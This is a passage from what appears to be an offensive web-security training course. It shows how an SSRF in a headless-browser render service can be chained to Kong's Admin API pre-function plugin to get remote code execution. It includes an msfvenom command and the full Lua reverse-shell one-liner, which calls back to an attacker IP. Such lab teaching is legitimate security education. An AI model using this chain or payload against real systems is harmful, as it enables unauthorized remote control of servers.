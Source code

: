 9

(GitHub, 2021), [https://github.com/alvarcarto/url-to-pdf-api/blob/master/src/core/render-core.js](https://github.com/alvarcarto/url-to-pdf-api/blob/master/src/core/render-core.js) [↩︎](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fnref-local_id_426-9)

10

(Google, 2021), [https://github.com/puppeteer/puppeteer#readme](https://github.com/puppeteer/puppeteer#readme) [↩︎](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fnref-local_id_426-10)

## 9.7. Remote Code Execution

Exfiltrating data is a nice accomplishment, but let's try to achieve remote code execution. We'll begin by reviewing our potential targets.

![Figure 6: Network diagram](https://static.offsec.com/offsec-courses/WEB-300/images/ssrf/71c2ae0eb88db9bfd31925bbf7c1625a-ssrf_diagram_02.png)

Figure 6: Network diagram

Since we can execute arbitrary JavaScript via the Render service, we can send requests to any of the hosts in the internal network. The PostgreSQL database will be difficult to attack without credentials. The REDIS server seems enticing, but let's focus on the Kong API Gateway since we already know we can access it via the Render service headless browser.

### 9.7.1. RCE in Kong Admin API

After spending some time reviewing documentation for Kong API Gateway, the plugins seemed like a good area to focus on. We can't install a custom plugin without the ability to restart Kong so we need to use the plugins already included.

The _Serverless Functions_[1](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fn-local_id_428-1) plugin has an interesting warning in its documentation:

Warning: The pre-function and post-function serverless plugin allows anyone who can enable the plugin to execute arbitrary code. If your organization has security concerns about this, disable the plugin in your kong.conf file.

That sounds perfect for our purposes! Let's check if Kong has that plugin loaded. Our first call to the Kong API Gateway Admin API actually contained information about what plugins are enabled on the server.

```
{"plugins":{"enabled_in_cluster":["key-auth"],"available_on_server":{"grpc-web":true,"correlation-id":true,"pre-function":true,"cors":true,...
```

> Listing 60 - Excerpt of enabled plugins

Since the _pre-function_ plugin is enabled, let's try to exploit that. The plugin runs Lua code so we'll need to build a matching payload. We can use msfvenom to generate a reverse shell payload.

```
kali@kali:~$ msfvenom -p cmd/unix/reverse_lua lhost=192.168.118.3 lport=8888 -f raw -o shell.lua
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 223 bytes
Saved as: shell.lua

kali@kali:~$ cat shell.lua
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('192.168.118.3',8888);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
```
